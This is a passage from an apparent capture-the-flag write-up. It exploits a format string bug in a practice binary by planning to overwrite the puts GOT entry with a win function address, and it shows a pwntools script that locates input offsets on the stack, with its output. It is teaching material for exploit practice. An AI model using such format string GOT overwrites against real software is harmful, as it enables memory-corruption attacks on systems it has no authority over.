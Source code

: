 We can see that it crashes inside `printf` because it attempts to write the value `8` to the address `0x4141414141414141`, which is not a valid memory address that the program can access.

![Task 9 Crash](task_9_crash.webp){: width="900" height="400" }

So, how can we exploit this? We observe that the binary calls the `puts` function both before reading our input and after the call to `printf`.

From previous challenges, we know that after the first call to `puts`, its `GOT` entry will store the function's address in memory and subsequent calls to the `puts` funtion will use this resolved address. To exploit this, we can overwrite the address in the `GOT` entry with the address of the `win` function. Consequently, when `puts` is called again, it will execute the `win` function instead.

### Creating the Payload Manually 

Let's begin with our manual exploit attempt. First, we will modify our payload by placing our input after the format specifiers. This is because we will use the format specifiers to overwrite memory addresses, by changing our input to those memory addresses which include null bytes (`0x00`). These null bytes will cause `printf` to stop printing when it encounters them.

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF("./materials-TryPwnMeOne/NotSpecified/notspecified", checksec=False)

r = process()
payload = b"%12$p %13$p %14$p %15$p".ljust(48, b"-")
payload += b"A"*8
payload += b"B"*8
payload += b"C"*8
payload += b"D"*8

r.recvuntil(b"Please provide your username\n")
r.sendline(payload)
print(r.recvall().decode())
r.close()
```

We can see that we are able to locate our inputs on the stack using the offsets 12, 13, 14, and 15.

```console
$ python3 exploit.py

Thanks!
0x4141414141414141 0x4242424242424242 0x4343434343434343 0x4444444444444444-------------------------AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD

bye
```

Now, all we have to do is modify our input to target the memory address of the `puts` function’s `GOT` entry and attempt to write the address of the `win` function to it which we can discover as `0x4011f6` using `readelf`.
